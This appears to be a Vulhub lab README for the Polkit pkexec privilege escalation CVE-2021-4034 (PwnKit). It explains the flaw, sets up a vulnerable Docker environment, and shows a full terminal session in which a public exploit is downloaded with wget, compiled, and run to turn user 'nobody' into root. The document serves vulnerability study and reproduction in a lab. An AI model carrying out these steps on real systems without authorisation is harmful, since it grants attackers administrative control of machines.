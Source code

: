 # Polkit's `pkexec` Local Privilege Escalation Vulnerability (CVE-2021-4034)

[中文版本(Chinese version)](README.zh-cn.md)

Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. The pkexec application is a setuid tool that provided by Polkit, it is designed to allow unprivileged users to run commands as privileged users according predefined policies.

The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation giving unprivileged users administrative rights on the target machine.

References:

- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
- https://github.com/berdav/CVE-2021-4034

## Vulnerability Environment

> Note: Linux kernel is fixed the [`argc==0` bug](https://lwn.net/Articles/882799/) in this [commit](https://github.com/torvalds/linux/commit/dcd46d897adb70d63e025f175a00a89797d31a43), you have to test this bug under the lower version of Linux because Docker container shares kernel with the host machine.

Because this vulnerability is not based on a service that running foreground, Vulhub just provided a Ubuntu that installed the Polkit (PolicyKit) v0.105.

You can run following command to enter the interactive shell on this Ubuntu:

```
docker-compose run --rm cmd bash
```

Then, execute `id`, it proves that you are just a normal user `nobody`:

![](2.png)

## Exploit

Use [this repository](https://github.com/berdav/CVE-2021-4034) to reproduce the CVE-2021-4034:

```
nobody@a083d335d026:/$ cd /tmp/
nobody@a083d335d026:/tmp$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
--2022-02-12 09:33:21--  https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main [following]
--2022-02-12 09:33:21--  https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main
Resolving codeload.github.com (codeload.github.com)... 20.205.243.165
Connecting to codeload.github.com (codeload.github.com)|20.205.243.165|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: 'main.tar.gz'

main.tar.gz                                              [ <=>                                                                                                                  ]   4.08K  --.-KB/s    in 0s

2022-02-12 09:33:22 (61.8 MB/s) - 'main.tar.gz' saved [4176]

nobody@a083d335d026:/tmp$ tar -zxvf main.tar.gz
CVE-2021-4034-main/
CVE-2021-4034-main/.gitignore
CVE-2021-4034-main/LICENSE
CVE-2021-4034-main/Makefile
CVE-2021-4034-main/README.md
CVE-2021-4034-main/cve-2021-4034.c
CVE-2021-4034-main/cve-2021-4034.sh
CVE-2021-4034-main/dry-run/
CVE-2021-4034-main/dry-run/Makefile
CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c
CVE-2021-4034-main/dry-run/pwnkit-dry-run.c
CVE-2021-4034-main/pwnkit.c
nobody@a083d335d026:/tmp$ cd CVE-2021-4034-main/
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ ls
LICENSE  Makefile  README.md  cve-2021-4034.c  cve-2021-4034.sh  dry-run  pwnkit.c
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root)
```

![](1.png)

As you can see, I currently become a root user after exploits.
